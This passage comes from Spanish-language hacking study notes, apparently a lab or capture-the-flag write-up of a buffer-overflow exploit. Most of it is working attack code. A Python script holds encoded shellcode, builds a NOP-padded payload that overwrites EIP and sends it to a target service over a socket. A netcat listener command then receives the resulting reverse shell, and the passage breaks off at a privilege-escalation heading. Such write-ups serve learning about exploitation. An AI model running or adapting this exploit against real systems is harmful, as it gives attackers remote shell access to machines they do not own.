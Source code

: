 ```python
shellcode += b"\xd9\xcd\xb8\xc0\x7c\xbc\xaa\xd9\x74\x24\xf4\x5e"
shellcode += b"\x33\xc9\xb1\x12\x31\x46\x17\x83\xee\xfc\x03\x86"
shellcode += b"\x6f\x5e\x5f\x37\x4b\x69\x43\x64\x28\xc5\xee\x88"
shellcode += b"\x27\x08\x5e\xea\xfa\x4b\x0c\xab\xb4\x73\xfe\xcb"
shellcode += b"\xfc\xf2\xf9\xa3\x52\x15\xfa\x32\xc3\x14\xfa\x35"
shellcode += b"\xa8\x90\x1b\x85\xa8\xf2\x8a\xb6\x87\xf0\xa5\xd9"
shellcode += b"\x25\x76\xe7\x71\xd8\x58\x7b\xe9\x4c\x88\x54\x8b"
shellcode += b"\xe5\x5f\x49\x19\xa5\xd6\x6f\x2d\x42\x24\xef"

# Es importante añadir los NOPs para que nuestro shellcode sea interpretado correctamente
payload = before_eip + eip + b'\x90'*30 + shellcode

def main():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_addr, port))

    s.send(b"Enter Data: " + payload + b"\r\n")


if __name__ == '__main__':

    main()
```

Nos pondremos en escucha con [NetCat](<../../🐱‍💻 Introducción al Hacking/💣 Conceptos de explotación/Formas enviarnos una bash 💻/Consideraciones previas.md# NetCat>) con el siguiente comando:

```bash
nc -nlvp 443
```

Si ejecutamos el script vemos como recibimos la [Reverse Shell](<../../🐱‍💻 Introducción al Hacking/💣 Conceptos de explotación/Formas enviarnos una bash 💻/Reverse Shell.md>):

> Parece magia 🔮

![](<../images/Pasted image 20240914172107.png>)

____
# Escalada de privilegios
